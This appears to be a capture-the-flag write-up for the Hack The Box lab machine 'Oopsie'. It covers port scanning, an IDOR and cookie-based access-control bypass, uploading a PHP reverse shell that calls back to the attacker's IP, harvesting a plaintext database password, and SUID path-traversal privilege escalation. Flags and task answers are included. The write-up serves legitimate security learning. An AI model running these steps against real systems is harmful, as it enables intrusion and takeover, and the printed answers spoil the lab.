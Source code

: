 # Oopsie

## ip

target: 10.129.95.191

attker: 10.10.15.248

## I. Enumeration

```bash
└─$ nmap -p- -Pn --min-rate=1000 -sV 10.129.95.191
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-24 00:33 EST
Nmap scan report for 10.129.95.191
Host is up (0.38s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.49 seconds

```

## II. Web exploit

hidden login page: `/cdn-cgi/login`

![source.png](./img/oopsie-source.png)

### 1. IDOR + access control vulnerability => access upload functionality

IDOR: access `http://10.129.78.254/cdn-cgi/login/admin.php?content=accounts&id=1` => admin id = 34322

![idor.png](./img/oopsie-idor.png)

access control vulnerability:

- `http://10.129.78.254/cdn-cgi/login/admin.php?content=uploads` is blocked for guest users

  ![blocked.png](./img/oopsie-block-guest.png)
- user role is controlled from the client side - the cookie, change the cookie and we can access the upload functionality:

  ![access-control-vuln.png](./img/oopsie-access-control-vuln.png)

### 2. File upload vulnerability => reverse shell

found a dir named `uploads`

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.129.95.191
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.95.191
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/02/24 00:36:17 Starting gobuster in directory enumeration mode
===============================================================
...
/uploads              (Status: 301) [Size: 318] [--> http://10.129.95.191/uploads/]
Progress: 20467 / 20470 (99.99%)
===============================================================
2023/02/24 00:49:31 Finished
===============================================================
```

upload php reverse shell:

```bash
┌──(kali㉿kali)-[/usr/share/webshells]
└─$ cat php/php-reverse-shell.php | grep 'CHANGE'
$ip = '10.10.15.248';  // CHANGE THIS
$port = 4242;       // CHANGE THIS
```

open a listening port using pwncat: `pwncat-cs --listen --port 4242`

access uploaded file: `http://10.129.95.191/uploads/php-reverse-shell.php` =>

```bash
┌──(pwncat)─(kali㉿kali)-[~]
└─$ pwncat-cs --listen --port 4242
/home/kali/Documents/learn-python/env/pwncat/lib/python3.11/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[08:32:41] Welcome to pwncat 🐈!                                                                                                                                                                                             __main__.py:164
[08:32:46] received connection from 10.129.95.191:49130                                                                                                                                                                           bind.py:84
[08:32:54] 0.0.0.0:4242: upgrading from /bin/dash to /bin/bash                                                                                                                                                                manager.py:957
[08:32:57] 10.129.95.191:49130: registered new host w/ db                                                                                                                                                                     manager.py:957
(local) pwncat$                                                                                                                                                                                                                             
(remote) www-data@oopsie:/$ whoami
www-data

```

## III. user flag

```bash
(remote) www-data@oopsie:/$ cat /home/robert/user.txt 
f2c74ee8db7983851ab2a96a44eb7981
```

## IV. source code review => robert credentials

```bash
(remote) www-data@oopsie:/$ cat var/www/html/cdn-cgi/login/db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

ssh login as robert:

```bash
┌──(kali㉿kali)-[~]
└─$ ssh robert@10.129.78.254 
robert@oopsie:~$ 
```

## V. privilege escalation via suid => root flag

recon => found that robert is in a group named `bugtracker`:

```bash
robert@oopsie:~$ sudo -l
[sudo] password for robert: 
Sorry, user robert may not run sudo on oopsie.
robert@oopsie:~$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

find which file in group `bugtracker`:

```bash
robert@oopsie:~$ find / -group bugtracker
...
/usr/bin/bugtracker
robert@oopsie:~$ ls -l /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```

this program has SUID bit => we can run it as root.

exploit:

```bash
robert@oopsie:~$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: abcdef
---------------

cat: /root/reports/abcdef: No such file or directory

robert@oopsie:~$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../root.txt
---------------

af13b0bee69f8a877c3faf667f7beacf
```

## Task

Task 1: With what kind of tool can intercept web traffic?: `proxy`

Task 2: What is the path to the directory on the webserver that returns a login page?: `/cdn-cgi/login`

Task 3: What can be modified in Firefox to get access to the upload page?: `cookie`

Task 4: What is the access ID of the admin user?: `34322`

Task 5: On uploading a file, what directory does that file appear in on the server?: `/uploads`

Task 6: What is the file that contains the password that is shared with the robert user?: `db.php`

Task 7: What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?: `find`

Task 8: Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?: `root`

Task 9: What SUID stands for?: `Set owner User ID`

Task 10: What is the name of the executable being called in an insecure manner?: `cat`

Submit user flag: done

Submit root flag: done

## References
